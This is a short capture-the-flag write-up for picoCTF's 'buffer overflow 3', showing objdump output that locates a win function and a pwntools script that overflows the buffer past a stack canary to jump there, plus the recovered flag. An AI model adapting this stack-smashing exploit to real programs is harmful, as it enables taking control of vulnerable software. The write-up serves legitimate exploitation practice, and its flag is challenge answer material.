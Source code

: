 > buffer overflow 3 - Points: 450 - (Solves: 80)
> It looks like Dr. Xernon added a stack canary to this program to protect against buffer overflows. Do you think you can bypass the protection and get the flag? You can find it in /problems/buffer-overflow-3_4_931796dc4e43db0865e15fa60eb55b9e. Source.

Buffer size: 32
Canary size: 4

```
% objdump -D vuln | grep win -A 2
win:
 80486eb:       55      pushl   %ebp
  80486ec:       89 e5   movl    %esp, %ebp
  --
   804870d:       75 1a   jne     26 <win+0x3E>
    804870f:       83 ec 0c        subl    $12, %esp
     8048712:       68 9c 89 04 08  pushl   $134515100
     ```

     Win address: 0x080486eb

     Canary bruteforce program:
     <look at exploit.py file>

     Exploit program:
     ```
     from pwn import *

     p = process('./overflow-3')

     canary = 'test'
     offset = 32

     post_offset = 16

     win_add = 0x080486eb

     p.sendline(str(offset + len(canary) + post_offset + 4))
     p.sendline('A'*offset + canary + 'A' * post_offset + p32(win_add))

     print p.recvrepeat(0.2)
     ```

Flag: `picoCTF{eT_tU_bRuT3_F0Rc3_9bb35cfd}`
